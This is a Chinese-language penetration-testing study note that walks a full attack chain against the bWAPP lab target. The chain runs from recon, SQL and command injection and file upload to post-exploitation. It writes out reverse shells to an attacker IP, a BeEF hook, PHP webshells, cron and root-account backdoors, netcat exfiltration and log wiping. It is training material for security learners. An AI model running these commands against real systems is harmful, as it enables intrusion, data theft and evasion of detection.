



# 08-Web渗透综合实战

## 目录
- [[#一、完整渗透测试方法论|一、完整渗透测试方法论]]
 - [[#1.1 PTES标准框架|1.1 PTES标准框架]]
 - [[#1.2 攻击路径规划|1.2 攻击路径规划]]
- [[#二、实战环境搭建|二、实战环境搭建]]
- [[#三、综合实战：完整渗透流程|三、综合实战：完整渗透流程]]
 - [[#3.1 阶段一：信息收集|3.1 阶段一：信息收集]]
 - [[#3.2 阶段二：漏洞分析|3.2 阶段二：漏洞分析]]
 - [[#3.3 阶段三：漏洞利用|3.3 阶段三：漏洞利用]]
 - [[#3.4 阶段四：后渗透|3.4 阶段四：后渗透]]
 - [[#3.5 阶段五：渗透测试报告|3.5 阶段五：渗透测试报告]]
- [[#四、手工测试与自动化配合|四、手工测试与自动化配合]]
- [[#五、综合工具链速查|五、综合工具链速查]]

---

## 一、完整渗透测试方法论

### 1.1 PTES标准框架

推荐使用PTES（Penetration Testing Execution Standard）框架。参见 [[../网安基础知识/02-Web技术基础|Web技术基础]] 了解Web应用架构和漏洞基础。



### 1.2 攻击路径规划

**典型的攻击链路：**



选择最优路径原则：成功率高、隐蔽性好、最短路径、影响最小。

---

## 二、实战环境搭建

**推荐靶机环境：**

| 靶机 | 用途 | 安装方式 |
|------|------|---------|
| DVWA | SQL注入/XSS/CSRF/命令注入/文件包含 | 预装或Docker |
| bWAPP | 超过100种Web漏洞 | `docker run -d -p 8080:80 raesene/bwapp` |
| Metasploitable 2 | 完整脆弱系统 | 下载OVA导入VirtualBox |
| WebGoat | OWASP官方教学靶场 | `docker run -d -p 8080:8080 webgoat/goatandwolf` |
| PentesterLab | 从易到难的实战挑战 | 在线/ISO |

**实验环境网络架构：**



---

## 三、综合实战：完整渗透流程

以bWAPP为例，完成从信息收集到GetShell的全链条攻击。

### 3.1 阶段一：信息收集

```bash
# Step 1: 手动浏览
# Firefox → http://bwapp.local/login.php
# 默认凭据: bee / bug → 浏览所有页面了解功能结构

# Step 2: whatweb指纹识别
whatweb -a 3 -v http://bwapp.local

# Step 3: dirb目录爆破
dirb http://bwapp.local /usr/share/dirb/wordlists/common.txt

# Step 4: gobuster补充爆破
gobuster dir -u http://bwapp.local \
 -w /usr/share/wordlists/dirb/big.txt \
 -x php,txt,bak,old -t 50

# Step 5: nikto漏洞扫描
nikto -h http://bwapp.local -o nikto_bwapp.html -Format html

# Step 6: curl手工探测常见配置文件
curl -I http://bwapp.local/.git/config
curl -I http://bwapp.local/.env
curl -I http://bwapp.local/config.php.bak
curl -I http://bwapp.local/phpinfo.php
curl -I http://bwapp.local/adminer.php
```

**典型发现记录：**
- Web服务器：Apache/2.x
- 后端语言：PHP/5.x
- 敏感路径：/phpinfo.php（PHP信息泄露）、/config/（403）、/passwords/（403）、/documents/（200）
- 功能点：登录、搜索、多种漏洞页面
- 攻击面：登录表单（暴力破解/SQL注入）、搜索功能（XSS/SQL注入）、多种漏洞练习页面（直接可利用）

### 3.2 阶段二：漏洞分析

```bash
# Step 1: ZAP被动扫描
# zaproxy → Firefox代理8080 → 浏览所有页面 → 查看Alerts

# Step 2: ZAP主动扫描关键页面
# Sites树右键关键URL → Attack → Active Scan

# Step 3: 手工测试关键漏洞

# 3a) SQL注入测试
# 搜索功能: 输入 1' 观察错误
# 登录页面: admin' --

# 3b) XSS测试
# 搜索功能: <script>alert(1)</script>
# 留言/反馈: 

# 3c) 文件包含测试
# ?page=../../../../etc/passwd

# 3d) 命令注入测试
# ping功能: 127.0.0.1;whoami
```

### 3.3 阶段三：漏洞利用

**路径1: SQL注入**
```bash
sqlmap -u "http://bwapp.local/sqli_1.php?title=1&action=search" \
 --cookie="PHPSESSID=xxx; security_level=0" --dbs

sqlmap -u "URL" --cookie="..." -D bWAPP --tables
sqlmap -u "URL" --cookie="..." -D bWAPP -T users -C login,password --dump
# → 使用获取的凭据登录
```

**路径2: 命令注入**
```bash
# 确认: 127.0.0.1;whoami → www-data

commix --url="http://bwapp.local/commandi.php" \
 --data="target=127.0.0.1&form=submit" \
 --cookie="PHPSESSID=xxx; security_level=0"
# 选择 Y 获取伪终端

# 获取反向Shell
# 攻击机: nc -lvnp 4444
# commix > bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

**路径3: XSS**
```bash
sudo beef-xss
# 注入Hook: <script src="http://192.168.1.100:3000/hook.js"></script>
# BeEF面板中利用: 获取Cookie/窃取会话/钓鱼攻击
```

**路径4: 文件上传**
```bash
echo '<?php system($_GET["cmd"]); ?>' > /home/a/shell.php
# 上传到 bWAPP → Unrestricted File Upload

curl "http://bwapp.local/images/shell.php?cmd=whoami"
curl "http://bwapp.local/images/shell.php?cmd=nc%20-e%20/bin/sh%20192.168.1.100%204444"
```

### 3.4 阶段四：后渗透

假设已获得初始shell（www-data用户）。

**Step 1: 信息收集（权限内）**
```bash
whoami # 确认当前用户
id # 查看UID和组
uname -a # 系统信息
cat /etc/os-release # 发行版信息
hostname # 主机名
ip addr # 网络配置
ss -tlnp # 监听端口
ps aux # 进程列表
crontab -l # 计划任务
cat /etc/passwd # 本地用户列表
```

**Step 2: 查找敏感文件**
```bash
find /var/www/ -name "config*" 2>/dev/null
find /var/www/ -name "*.conf" 2>/dev/null
find / -name "wp-config.php" 2>/dev/null
find / -name ".env" 2>/dev/null
find / -type f -name "*.sql" 2>/dev/null
find / -type f -name "*.pem" 2>/dev/null
find / -type f -name "*id_rsa" 2>/dev/null
```

**Step 3: 权限提升**
```bash
# SUID提权
find / -perm -4000 -type f 2>/dev/null

# Sudo提权
sudo -l

# Cron提权
cat /etc/crontab
ls -la /etc/cron.d/

# 内核提权
uname -a
# → 搜索对应版本exploit（DirtyCow, OverlayFS等）

# 密码复用
find / -name "*.txt" -exec grep -l "password" {} \; 2>/dev/null
find / -name "*.php" -exec grep -l "password" {} \; 2>/dev/null
```

**Step 4: 维持访问（Persistence）**
```bash
# SSH密钥
echo "ssh-rsa AAAA..." >> /home/user/.ssh/authorized_keys
chmod 600 /home/user/.ssh/authorized_keys

# Cron后门
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.100/5555 0>&1'" \
 >> /etc/crontab

# PHP WebShell
echo '<?php @eval($_POST["x"]); ?>' > /var/www/html/.hidden.php

# 添加root账户
echo "backdoor::0:0:root:/root:/bin/bash" >> /etc/passwd
```

**Step 5: 内网横向移动**
```bash
# 探测内网主机
for i in $(seq 1 254); do
 ping -c 1 -W 1 192.168.1.$i | grep "ttl" &
done

# 端口扫描（bash）
for port in 22 80 443 445 3306 3389 8080; do
 (echo >/dev/tcp/192.168.1.x/$port) 2>/dev/null && echo "$port open"
done

# SSH隧道（内网穿透）
ssh -D 9050 user@target
# → 配置proxychains进行内网穿透

# 凭证复用
cat /var/www/html/config.php # → 数据库密码
# → 尝试连接内网MySQL/PostgreSQL
```

**Step 6: 数据提取**
```bash
# 压缩敏感文件
tar -czf /tmp/data.tar.gz /var/www/html/

# HTTP外传
python3 -m http.server 9999 --directory /tmp/
# 攻击机: wget http://target:9999/data.tar.gz

# Netcat外传
nc -w 3 192.168.1.100 4444 < /tmp/data.tar.gz
# 攻击机: nc -lvnp 4444 > data.tar.gz
```

**Step 7: 痕迹清除**
```bash
unset HISTFILE
history -c
rm -f ~/.bash_history
echo > ~/.bash_history

# 清除日志（需要root）
echo > /var/log/auth.log
echo > /var/log/syslog
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log

# 清理上传文件
shred -zu /tmp/exploit_file
rm -f /var/www/html/.hidden.php
```

### 3.5 阶段五：渗透测试报告

**报告结构：**
1. **执行摘要（Executive Summary）** — 测试目的、总体风险评级、关键发现摘要、建议优先级
2. **测试方法（Methodology）** — 测试阶段说明、工具列表、测试时间线
3. **详细发现（Findings）** — 每个漏洞：名称和描述、CVSS评分、风险等级、复现步骤、POC代码/截图、影响分析、修复建议、参考链接
4. **漏洞列表（按严重度排序）** — 编号、漏洞名称、等级、状态
5. **攻击路径图** — 信息收集 → SQL注入 → 获取密码哈希 → 破解密码 → 登录后台 → 文件上传 → WebShell → 提权 → root
6. **修复建议（按优先级）**
7. **附录** — 工具输出日志、扫描报告、截图详细

---

## 四、手工测试与自动化配合

**何时手工测试：**
- 复杂逻辑漏洞（业务逻辑、权限绕过）
- 认证/会话相关漏洞
- WAF/IDS拦截了自动化工具
- 需要理解业务上下文
- Token/签名相关的漏洞
- CSRF（需要理解表单结构）
- IDOR（需要理解参数含义）
- 多步骤流程中的漏洞

**何时使用自动化工具：**
- 大规模资产扫描（nikto, ZAP）
- SQL注入检测（sqlmap）
- 命令注入检测（commix）
- 目录爆破（dirb, gobuster）
- 指纹识别（whatweb）
- XSS大规模检测（xsstrike, xsser）
- 重复性任务
- 已知漏洞检测（wpscan, joomscan）

**最佳实践流程：**
1. 自动扫描（广度覆盖）→ 产生候选漏洞列表
2. 手工验证（深度确认）→ 确认漏洞存在性
3. 自动利用（效率）→ 利用已知技术
4. 手工精细化（定制化）→ 绕过复杂防护

---

## 五、综合工具链速查

```bash
# === 侦察阶段 ===
whatweb -a 3 http://target.com
wpscan --url http://target.com --enumerate u,p,vp
dirb http://target.com /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt -x php,txt

# === 扫描阶段 ===
nikto -h http://target.com -o nikto.html -Format html
wafw00f http://target.com
zaproxy -cmd -quickurl http://target.com -quickprogress -quickout zap_report.html

# === SQL注入 ===
sqlmap -u "URL" --dbs
sqlmap -u "URL" -D db --tables
sqlmap -u "URL" -D db -T table --dump
sqlmap -u "URL" --os-shell --tamper=space2comment

# === 命令注入 ===
commix --url="URL" --data="param=value"
commix --url="URL" --batch --os-shell

# === XSS ===
xsser --url "URL" --auto
xsstrike -u "URL"
sudo beef-xss

# === 会话/认证 ===
burpsuite → Intruder → Cluster Bomb
curl -b "PHPSESSID=xxx" http://target.com

# === 后渗透（反弹Shell） ===
nc -lvnp 4444
bash -i >& /dev/tcp/IP/PORT 0>&1
python3 -c 'import pty; pty.spawn("/bin/bash")'

# === 提权 ===
find / -perm -4000 -type f 2>/dev/null
sudo -l
uname -a → search exploit
```

[[../总目录与快速查询|← 返回总目录]] | 上一模块：[[07-认证与会话攻击|07-认证与会话攻击]] | 下一模块：[[09-WAF绕过与高级技巧|09-WAF绕过与高级技巧]]
